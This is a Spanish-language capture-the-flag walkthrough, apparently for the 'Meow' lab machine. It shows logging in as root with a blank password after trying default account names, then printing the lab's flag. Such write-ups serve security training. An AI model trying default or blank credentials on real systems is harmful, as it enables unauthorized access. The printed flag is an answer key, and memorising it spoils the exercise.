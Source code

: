 Entre las cuentas más comunes tenemos:
- admin
- administrator
- root

Aprovechando este defecto podemos acceder a la administracion de la maquina vulnerable con el usuario root y con la contraseña en blanco, debido a que los otros usuarios de login son incorrectos

```
  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: admin
Password: 

Login incorrect
Meow login: administrator
Password: 

Login incorrect
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 24 Sep 2022 06:33:41 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.211.201
root@Meow:~#
```

Con éxito hemos iniciado sesión en el sistema de destino como root esto lo podemos verificar mediante el simbolo del  prompt #. Ahora podemos continuar y listar el contenid del directorio mediante el comando `ls`, como consecuencia nos encontramos con el archivo flag.txt que es nuestro objetivo en este caso.

```
root@Meow:~# ls
flag.txt  snap
```
Podemos visualizar el contenido del archivo flag.txt mediante el comando `cat flag.txt` la salida de este comando nos mostrará el CTF del objetivo
```
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```
